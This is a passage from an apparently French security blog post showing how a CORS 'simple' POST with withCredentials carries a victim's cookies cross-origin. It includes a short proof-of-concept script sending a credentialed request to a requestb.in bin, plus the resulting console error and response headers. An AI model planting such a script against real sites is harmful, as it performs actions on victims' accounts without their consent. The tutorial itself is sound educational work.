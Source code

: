 ![Schema attaque CORS]({{ site.url }}/public/images/cors-csrf/cors_2.png)  
  
Comme nous l’avons vu, en l’absence de ce header, le navigateur bloquera l’accès à la réponse. Cependant cette **requête simple CORS POST [withCredentials](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials)** sera interprétée sur le serveur si ce dernier ne possède pas de filtre CORS explicite (à partir d'un site malicieux, les requêtes GET, POST générées à partir d'éléments HTML enverront le cookie dans la requête. Sur de l'Ajax il faut rajouter la clause withCredentials = true).  
  
Pour cet exemple, nous avons créé une page **http://localhost/secu/cookie.html**:  

```html
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST', 'http://requestb.in/11hlgzo1');
	xhr.withCredentials = true;
	xhr.send('op=exaction');
</script>
```

Au préalable nous nous sommes connectés sur **requestb.in**. Ce site initialise plusieurs cookies dont le suivant :  

![Cookie requestb.in]({{ site.url }}/public/images/cors-csrf/cors_3.png)  
Nous remarquons un cookie sécurisé, donc impossible d’y accéder via **document.cookie**. Cependant **withCredentials** inclut automatiquement les cookies dans la requête (*Update 14/05/2017: validé à nouveau sur Chrome v56, cependant le comportement n'est pas reproductible sur ma Kali sur des versions Firefox ESR v45.3 et Chromium v53*).  
  
Vérifions l’éxecution du payload sur request.bin :  

![Résultat request.bin]({{ site.url }}/public/images/cors-csrf/cors_4.png)  
Un petit tour du côté de la console :
<pre class="alert">
XMLHttpRequest cannot load http://requestb.in/11hlgzo1. No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'http://localhost' is therefore not allowed access
</pre>
<br />
Et de la réponse :  
 
```http
HTTP/1.1 200 OK
Date: Sat, 20 Aug 2016 14:41:21 GMT
Content-Type: text/html; charset=utf-8
Sponsored-By: https://www.runscope.com
Set-Cookie: session=eyJyZWNlbnQiOlsiMTFobGd6bzEiLCIxNzRzOGR3MSJdfQ.Cpn9kQ.ouuFFtBlOyU9cX5aymJeDrg57gQ; HttpOnly; Path=/
Via: 1.1 vegur
Server: cloudflare-nginx
CF-RAY: 2d569b0e05cb0914-CDG
Content-Encoding: gzip
Transfer-Encoding: chunked
```  
